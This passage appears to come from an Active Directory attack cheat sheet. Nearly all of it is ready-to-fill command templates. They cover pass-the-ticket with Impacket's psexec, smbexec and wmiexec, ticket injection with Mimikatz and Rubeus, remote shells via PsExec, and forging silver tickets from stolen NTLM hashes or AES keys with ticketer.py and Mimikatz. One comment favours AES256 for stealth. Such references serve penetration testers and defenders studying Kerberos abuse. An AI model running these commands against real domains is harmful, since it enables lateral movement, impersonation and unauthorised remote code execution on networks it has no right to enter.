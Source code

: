 ### Using ticket in Linux:

With [Impacket](https://github.com/SecureAuthCorp/impacket) examples:
```shell
# Set the ticket for impacket use
export KRB5CCNAME=<TGT_ccache_file_path>

# Execute remote commands with any of the following by using the TGT
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```


### Using ticket in Windows

Inject ticket with [Mimikatz](https://github.com/gentilkiwi/mimikatz):
```shell
mimikatz # kerberos::ptt <ticket_kirbi_file>
```

Inject ticket with [Rubeus](https://github.com/GhostPack/Rubeus):
```shell
.\Rubeus.exe ptt /ticket:<ticket_kirbi_file>
```

Execute a cmd in the remote machine with [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec):
```shell
.\PsExec.exe -accepteula \\<remote_hostname> cmd
```

## Silver ticket

With [Impacket](https://github.com/SecureAuthCorp/impacket) examples:
```shell
# To generate the TGS with NTLM
python ticketer.py -nthash <ntlm_hash> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>

# To generate the TGS with AES key
python ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>

# Set the ticket for impacket use
export KRB5CCNAME=<TGS_ccache_file>

# Execute remote commands with any of the following by using the TGT
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```

With [Mimikatz](https://github.com/gentilkiwi/mimikatz):
```shell
# To generate the TGS with NTLM
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /rc4:<ntlm_hash> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

# To generate the TGS with AES 128 key
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes128:<krbtgt_aes128_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

# To generate the TGS with AES 256 key (more secure encryption, probably more stealth due is the used by default by Microsoft)
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes256:<krbtgt_aes256_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>
```